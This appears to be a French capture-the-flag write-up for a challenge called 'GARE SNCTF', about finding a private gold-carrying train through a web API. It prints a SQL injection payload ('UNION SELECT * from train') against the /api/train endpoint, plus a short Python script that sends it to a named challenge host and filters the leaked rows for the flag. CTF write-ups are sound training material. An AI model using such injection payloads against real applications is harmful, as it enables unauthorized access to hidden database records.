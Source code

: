 # GARE SNCTF - Writeup


**LORE :** Ah, tu as trouvé toutes les informations sur le train ? Maintenant, il te reste juste à mettre tout ça en lien et à trouver le bon train sur leur site. Et bientôt, tu seras riche avec tout cet OR.

Format flag: SNCTF{ }


![alt text](image.png)


On recharchant tout les info qu'on a sur le train soit. Et on sait qu'on cherche de l'OR

```
track 2B
wagon C4
date 2024-09-16
hour 2:00
freight OR
```

Après chercher les infos des trains on voit vite qu'on ne trouve aucun train valide

Le train le plus proche
![alt text](image-1.png)
Mais l'heure est pas valide

En trouvant l'api endpoint `/api/train?name=` et une injection SQL
`' UNION SELECT * from train --'` on découvre qu'il y a des trains privés et nom privés

![alt text](image-2.png)

Du coup à partir de la on peut utiliser l'api pour trouver le bon train

```py
import requests
from icecream import ic


URL = "http://samuel-lab.freeboxos.fr:11000/api/train?name=%27%20UNION%20SELECT%20*%20from%20train%20--%27"

response = requests.get(URL)
data = response.json()

for train in data["train"]:
    if train['track'] == '2B' and train['wagon'] == 'C4' and train['date'] == '2024-09-16' and train['hour'] == '2:00' and train['freight'] == 'OR' and train['private'] == 1:
        print(f"Flag: SNCTF{{{train['uuid']}}}")
        break

```

Il y a bien sur plusieurs moyens de trouver le bon train. Avec une full request sql.